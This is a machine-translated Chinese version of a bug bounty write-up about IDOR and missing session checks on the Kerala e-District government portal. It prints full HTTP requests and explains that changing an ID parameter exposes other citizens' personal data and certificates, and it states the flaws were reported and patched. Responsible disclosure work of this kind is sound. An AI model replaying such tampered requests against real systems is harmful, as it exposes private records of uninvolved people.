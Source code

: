 # 我保护了由 NIC 维护的喀拉拉邦政府网站上超过 1000 万用户的数据。

> 原文：<https://infosecwriteups.com/i-secured-more-than-10-million-users-data-on-the-kerala-government-website-maintained-by-nic-fb7d5a9f156b?source=collection_archive---------1----------------------->

嗨黑客们！！我再次带着喀拉拉邦政府网站上的新漏洞回来了。

对于那些不认识我的人，请在谷歌上搜索我的名字“克里希纳德夫·梅莱维拉”

目标地点是:[http://edistrict.kerala.gov.in/](http://edistrict.kerala.gov.in/)

什么是电子地区入门网站？

![](img/cf05678ed7a0b53bdda30e91d9514ba5.png)

Krishnadev P Melevila 保护喀拉拉邦电子区门户网站

```
Kerala E-District project intend to provide Government services to citizens through Common Service Centers(CSC) which are easily accessible. Services from different departments are brought under one umbrella at any CSC. Some of the services are also made available through online portal. It utilizes backend computerization to e-enable the delivery of services and ensures transparency and uniform application of rules. The project involves integrated and seamless delivery of services to public by automation, integration and incorporating Business Process Re-Engineering(BPR) where ever required. In a nutshell Edistrict is a tailor made program for minimizing effort and time to provide prompt and effective services to the public.
```

所以让我们开始吧，

> 漏洞:IDOR +不正确的身份验证
> 
> 影响:关键
> 
> 风险:攻击者可以查看/编辑/修改用户(受害者)的数据。
> 
> 优先级:P0
> 
> 范围:攻击者可以下载其他用户的证书，
> 查看/编辑/修改其他用户的敏感数据。总访问
> 控制

在攻击者视点中重现的步骤:

1.两个端点易受攻击。

```
POST /dwr/call/plaincall/registrationDAO.getApplicantAgeGenDWR.dwr HTTP/1.1
Host: edistrict.kerala.gov.in
Cookie: <REDACTED>
Content-Length: 344
Sec-Ch-Ua: <REDACTED>
User-Agent: <REDACTED>
Content-Type: text/plain
Accept: */*
Origin: [https://edistrict.kerala.gov.in](https://edistrict.kerala.gov.in)
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: <REDACTED>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7
Connection: close
callCount=1
windowName=
c0-scriptName=registrationDAO
c0-methodName=getApplicantAgeGenDWR
c0-id=0
c0-param0=number:3735XXXX
batchId=4
instanceId=0
page=<REDACTED>
```

下面是对此端点的调查:
❖cookie/会话验证没有完成。
❖ IDOR 检测到
❖如果攻击者将' c0-param0=number '参数从' 3735XXXX '更改为
任何其他类似的值，攻击者将获得一些随机的用户敏感信息，如身份证号、年龄、电话、电子邮件、收入详情等…

第二个

```
POST /openSearch.do HTTP/1.1
Host: edistrict.kerala.gov.in
Cookie: <REDACTED>
JSESSIONID=8Bd+K88MaOh-XbWczEiY0g__.node1
Content-Length: 348
Cache-Control: <REDACTED>
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: <REDACTED>
Upgrade-Insecure-Requests: 1
Origin: [https://edistrict.kerala.gov.in](https://edistrict.kerala.gov.in)
Content-Type: application/x-www-form-urlencoded
User-Agent: <REDACTED>
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q
=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer:<REDACTED>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7
Connection: close
s_code=RC&updated_date=&tknName=token&token=16516737194326072874285415736384&action=&fromDat
eHidden=&toDateHidden=&tknName=token&token=16516737194326072874285415736384&tknName=token&lo
gin=&navigate=&txtApplicationNo=&userHidden=&receiptHidden=&searchService=qrPrint&srvceType=
cert&applNo=70913065&appno=&proceedingform=&servicetype=Non-Creamy+Layer
```

以下是对该终点的调查:

❖参数“cert&applNo”易受 IDOR 攻击。
❖无会话/cookie 验证。

通过利用这个端点，攻击者可以下载政府颁发的其他用户的证书。

证明

![](img/69e8b784d9a8a422ae4b54a31360b6f4.png)![](img/8f0ed43f2ff4c21643d3e8b2cd1b5d8f.png)

就这样结束了！！现在我已经向国家信息中心报告了 3 个漏洞，其中 3 个已经被修补。

![](img/299e70f9e7abd8b6e1fa108a357404f1.png)

漏洞已修补

我在 NIC 上的第一个漏洞:[https://medium . com/bugbountywriteup/exposure-million-of-critical-data-on-Kerala-civil-supplies-website-cc 3 a4 bed 5d 07](https://medium.com/bugbountywriteup/exposing-millions-of-critical-data-on-kerala-civil-supplies-website-cc3a4bed5d07)

我在 NIC 上的第二个漏洞:[https://medium . com/bugbountywriteup/API-authentic ation-bypass-on-national-informatics-centre-d 438 B3 BAE 085](https://medium.com/bugbountywriteup/api-authentication-bypass-on-national-informatics-centre-d438b3bae085)

我的其他错误报告:[https://medium.com/@krishnadevpmelevila](https://medium.com/@krishnadevpmelevila)

***别忘了在 medium 等社交媒体上关注我。也请为这篇文章鼓掌 50 次，这是我写更多的灵感！！***

我需要你的支持来写更多的东西，请给我买杯咖啡吧:【https://www.buymeacoffee.com/krishnadevpm 

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特句柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 句柄:*[*https://www.linkedin.com/in/krishnadevpmelevila/*](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[【http://krishnadevpmelevila.com/】T21](http://krishnadevpmelevila.com/)